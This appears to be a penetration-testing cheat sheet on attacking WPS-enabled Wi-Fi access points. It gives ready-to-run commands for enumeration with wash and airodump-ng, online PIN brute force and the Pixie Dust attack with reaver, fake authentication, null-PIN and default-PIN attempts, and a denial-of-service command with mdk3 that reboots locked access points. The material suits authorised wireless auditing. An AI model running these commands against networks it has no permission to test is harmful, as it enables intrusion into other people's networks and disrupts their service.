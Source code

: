 ### Introduction
---
Mostly around exploiting WPS PIN. In rare occasions physical attacks may also be viable (e.g., pushing the WPS button, checking the sticker on the back of the AP).

### Enumeration
---
After setting our adapter to monitor mode, we can use `wash` to learn about the WPS-enabled APs:
```sh
wash -i wlan0mon
```
- Listing APs with WPS enabled.
- Scans 2.4GHz by default. Add `-5` to also scan 5GHz networks.

Example output:
```
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
00:0A:D0:97:39:6F    1  -88  2.0  No   Broadcom  linksys
C8:BC:C8:FE:D9:65    2  -28  2.0  No   AtherosC  secnet
34:08:04:09:3D:38    3  -32  1.0  No   RalinkTe  wifu
```
- `WPS` indicates the WPS version. WPSv2 is more resilient towards brute force attacks.
- `Lck` indicates if WPS is locked.

Alternatively, use airodump-ng:
```sh
sudo airodump-ng --wps
```

### Exploitation
---
##### PIN Brute force (Online)
###### Reaver:
```sh
sudo reaver -i wlan0mon -b <AP bssid> -v
```

##### Pixie Dust Attack (Offline)
###### Reaver:
```sh
sudo reaver -i wlan0mon -b <AP bssid> -v -K
```
- `-K` for try running PixieWPS attack.

>[!note]
>If reaver is stuck at `Waiting for beacon from XX:XX:XX:XX:XX:XX` for a very long time, add the channel parameter `-c` to specify the channel of the AP.

If the attack is not working because we are not associated with the AP:
```sh
sudo aireplay-ng --fakeauth 30 -a <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
- When running this, run `reaver` with `-A` to avoid reaver associating with the AP.

### Null PIN Attack
---
Some WPS implementation have blank PIN. We can add `-p` for verifying a single PIN. 
```sh
sudo reaver -b <AP bssid> -i wlan0mon -v -p ''
```

### Known PINs + Generation Algorithms
---
Some default PINs depend on the first 3 bytes of the BSSID. Use the `airgeddon` project ([v1s1t0r1sh3r3/airgeddon: This is a multi-use bash script for Linux systems to audit wireless networks. (github.com)](https://github.com/v1s1t0r1sh3r3/airgeddon)).
```
sudo apt install airgeddon 
```

Loading the default PINs into memory:
```
source /usr/share/airgeddon/known_pins.db
```

Check the database with BSSID starting with, for example, `01A2B3`
```
echo ${PINDB["01A2B3"]}
```
- Try the output PINs. If all not working, try blank PIN.


### Troubleshooting
---
- Always try another Wi-Fi adapter with another chipset when possible.
- Try restarting Reaver if this message pops up: `[!] WPS transaction failed (code: 0x03), re-trying last pin`


For locked WPS, try rebooting the AP with mdk3/mdk4 ([mdk3 | Kali Linux Tools](https://www.kali.org/tools/mdk3/)), a DoS tool.
```sh
mdk3 wlan0mon a -a <AP bssid> -m
```

